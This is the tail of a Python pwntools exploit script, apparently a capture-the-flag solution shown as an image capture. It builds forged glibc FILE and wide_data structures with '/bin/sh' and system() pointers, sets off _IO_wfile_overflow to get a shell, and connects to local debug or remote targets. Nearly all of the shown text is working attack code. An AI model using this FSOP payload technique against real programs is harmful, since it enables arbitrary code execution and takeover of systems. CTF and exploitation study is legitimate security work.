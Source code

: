 ```py
  #  - & _IO_UNBUFFERED(0x8): must be 0
  #  To fulfill this condition, we just use spaces(0x20) before /bin/sh
  payload = b" " * 8 + b"/bin/sh\x00" # flags
  payload += p64(0x0) * int((0x90/8 - 1))
  payload += p64(0) # cvt
  payload += p64(io_stdout + 0x20) # wide_data
  payload += p64(0) * 3
  payload += p32(1)
  payload += b"\x00"*0x14
  payload += p64(io_wfile_jumps)

  ## stdout (== stderr->_wide_data)
  payload += p64(0) * 4 # becomes wide_vtable
  payload += p64(0) * 3 # read
  payload += p64(0) # write_base: must be NULL
  payload += p64(0x10) # write_ptr
  payload += p64(0x0) # write_end
  payload += p64(0x0) # buf_base
  payload += p64(system) * 4 # becomes wide_vtable->doalloc
  payload += p64(0) * 2 # state
  payload += p64(0) * int(0x70/8) # codecvt
  payload += p64(io_stdout) * 10 # wide_vtable

  create(4, 0, 0, payload)
  quit() # invoke _IO_wfile_overflow in _IO_all_lockp

  c.interactive()

## main ##############################################

if __name__ == "__main__":
    global c
    
    if len(sys.argv)>1:
      if sys.argv[1][0]=="d":
        cmd = """
          set follow-fork-mode parent
        """
        c = gdb.debug(FILENAME,cmd)
      elif sys.argv[1][0]=="r":
        c = remote(rhp1["host"],rhp1["port"])
        #s = ssh('<USER>', '<HOST>', password='<PASSOWRD>')
        #c = s.process(executable='<BIN>')
      elif sys.argv[1][0]=="v":
        c = remote(rhp3["host"],rhp3["port"])
    else:
        c = remote(rhp2['host'],rhp2['port'])
    exploit()
    c.interactive()
```
